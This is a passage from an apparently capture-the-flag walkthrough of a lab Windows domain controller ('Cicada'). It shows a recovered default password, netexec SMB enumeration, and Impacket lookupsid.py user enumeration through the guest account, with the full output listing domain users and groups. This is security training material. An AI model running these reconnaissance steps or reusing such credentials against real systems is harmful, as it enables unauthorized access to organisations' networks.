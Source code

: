 From the text file we can see a default password:

Cicada$M6Corpb*@Lp#nZp!8

Let's try to enumerate the domain a bit more. Using `netexec`:

```shell
netexec smb 10.10.11.35

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)

```

We can try using Impacket's `netlookupids.py` to enumerate users on the system by passing it the **guest** account with no password:

```shell
python3 lookupsid.py guest@10.10.11.35 -target-ip 10.10.11.35 -port 445 -no-pass
```

We get a bunch of hits back...

```text
498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```
